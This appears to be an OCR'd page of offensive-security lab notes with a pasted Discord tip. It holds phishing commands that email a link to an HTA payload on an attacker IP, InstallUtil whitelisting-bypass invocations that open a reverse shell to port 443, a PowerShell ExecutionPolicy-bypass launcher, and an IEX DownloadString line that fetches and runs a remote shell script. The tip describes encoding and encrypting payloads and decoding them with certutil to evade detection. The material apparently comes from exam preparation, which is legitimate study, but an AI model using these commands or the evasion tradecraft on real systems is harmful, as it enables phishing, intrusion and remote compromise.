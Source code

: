 
```
sudo swaks --body 'Please click here http://192.168.45.235/STAGE1.hta' --add-header "MIME-Version: 1.0" --add-header "Content-Type: text/html" --header "Subject: Issues with mail" -t will@tricky.com -f bill@tricky.com --server 192.168.223.159
```

```
sendemail -f p3ta@tricky.com -t Will@tricky.com -u "Issues with mail system"  -m "http://192.168.45.235/STAGE1.hta" -s 192.168.223.159:25 
```

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=192.168.45.235 /rport=443 /U psby.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U psby.exe

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /revshell:true /rhost:192.168.45.235 /rport:443 /U psby.exe

shell.Run("powershell -NoProfile -ExecutionPolicy Bypass -Command \"Start-Process 'c:\\Windows\\Tasks\\ConsoleApp1.exe'\"", 0, true);


Hello 👋 <@878511282553233428> and <@874530760097423381>   I share some tips for this:
||Since a simple HTA with a PowerShell downloader or the Shell.Run on download tools will get detected in the URL you should encode it.
You could do this by using WMI to get execution and reuse the tradecraft from Office macros where strings are encoded to ASCII (JS instead VBA). (6.8.3)
A HTA to download an encoded EXE, decode it with certutil and execute it through InstallUtil. (8.3.3)
The payload must be encrypted (Caeser encrypt at 6.5.2 should be good) ||
Personal advice: try not to get help any further so you get the most learning from the experience. Remember that the Challenges are designed to prepare you for the exam.

IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.205/shell.ps1